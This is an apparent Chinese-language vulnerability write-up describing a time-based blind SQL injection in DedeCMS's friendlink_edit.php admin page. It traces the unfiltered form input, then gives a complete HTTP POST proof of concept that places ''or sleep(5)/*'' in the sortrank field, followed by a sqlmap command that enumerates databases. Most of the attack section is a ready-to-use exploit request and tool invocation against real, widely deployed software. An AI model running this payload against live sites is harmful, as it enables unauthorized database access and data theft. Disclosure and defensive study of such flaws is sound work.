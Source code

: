 漏洞一 SQL注入

路由地址： /dede/friendlink_edit.php 

找到可控变量 $webname;

发现if条件语句
 ![img](images2/图片1.png)
 

发现这是else if($dopost=="saveedit")循环条件
 ![img](images2/图片2.png)
 

进入 init（）、item（）
 ![img](images2/图片3.png)
 

这段 PHP 代码定义了一个类中的 Init() 方法，其作用是从 $_POST 和 $_GET 中提取用户提交的表单数据，并分别保存到类的属性中。
 ![img](images2/图片4.png)

这段代码的意思是从 $this->forms 中获取指定名称的表单字段值，如果不存在，则返回默认值。

由此可见，对参数没有过滤，但是由于页面没有回显，尝试时间盲注来判断，语句是否执行有效。

  ![img](images2/图片5.png)

 

 

Poc

POST /dede/friendlink_edit.php HTTP/1.1

Host: zm.cms

Content-Length: 1290

Cache-Control: max-age=0

Origin: http://zm.cms

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryy9ctvlOoiOQK7mbA

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://zm.cms/dede/friendlink_edit.php?id=9&dopost=getedit

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=130cevhlnoej4dcsg1stootrap; DedeUserID=1; _csrf_name_f1c32558=4a819cbdba87ed37850602f6ac761737; _csrf_name_f1c325581BH21ANI1AGD297L1FF21LN02BGE1DNG=9fe9063907af3554; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=4ab7784072cbcbf3; DedeLoginTime=1751956169; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=313c73668fd8b3ea; ENV_GOBACK_URL=%2Fdede%2Ffriendlink_main.php

Connection: close

 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="id"

 

9

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="dopost"

 

saveedit

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="url"

 

http://docs.dedecms.com/

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="sortrank"

 

'or sleep(5)/*'

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="webname"

 

DedeCMS维基手册

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="logo"

 

 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="logoimg"; filename=""

Content-Type: application/octet-stream

 

 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="msg"

 

 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="email"

 

'*/-- -

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="ischeck"

 

2

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="typeid"

 

1

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="Submit"

 

 提 交 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA--

 

 

 

进行sql测试

python3 sqlmap.py -r url.txt --dbs --batch -p sortrank --level 5 --risk 3
 ![img](images2/图片6.png)
  ![img](images2/图片7.png)
 

 

 

 

 
